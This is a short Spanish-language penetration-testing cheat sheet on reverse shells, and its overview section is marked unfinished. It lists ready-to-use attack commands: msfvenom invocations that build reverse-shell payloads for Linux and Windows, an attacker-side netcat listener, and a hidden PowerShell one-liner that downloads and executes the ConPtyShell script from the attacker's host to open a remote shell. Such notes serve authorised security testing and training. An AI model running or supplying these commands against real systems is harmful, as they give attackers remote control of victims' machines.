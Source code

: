 ```yaml
---
aliases:
tags:
  - type/cheatsheet
primary categories:
  - "[[Penetration Test]]"
secondary categories:
  - "[[Pre-Exploitation|Pre-Explotación]]"
tertiary categories:
  - "[[Payloads]]"
type: CheatSheet
linked:
---
```

# Reverse Shells

***

## Cheatsheet

| **Acción**                                                                                                                                                                                                                                                                                                                                                                     | **Descripción**                                               |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------- |
| https://www.revshells.com/                                                                                                                                                                                                                                                                                                                                                     | **Generador online de reverse shells**.                       |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip> -f elf -o shell LPORT=<port>`                                                                                                                                                                                                                                                                                        | **Meterpreter reverse shell** para Linux como ejecutable ELF. |
| `msfvenom -p windows/x64/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe`                                                                                                                                                                                                                                                                                         | **Reverse shell TCP** para Windows como ejecutable `.exe`.    |
| En la máquina atacante:<br>[Descargar ConPtyShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1)<br>`stty raw -echo; (stty size; cat) \| nc -lvnp <port>`<br><br>En la máquina de destino:<br>`powershell.exe -WindowStyle Hidden IEX(IWR http://<ip>/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <ip> <port>` | <br><br><br>ConPtyShell #porhacer                             |

---

## Artículos relacionados

- **MSFVenom:** Para generar payloads de reverse shell más personalizables.
    

---

## Overview

****TODO****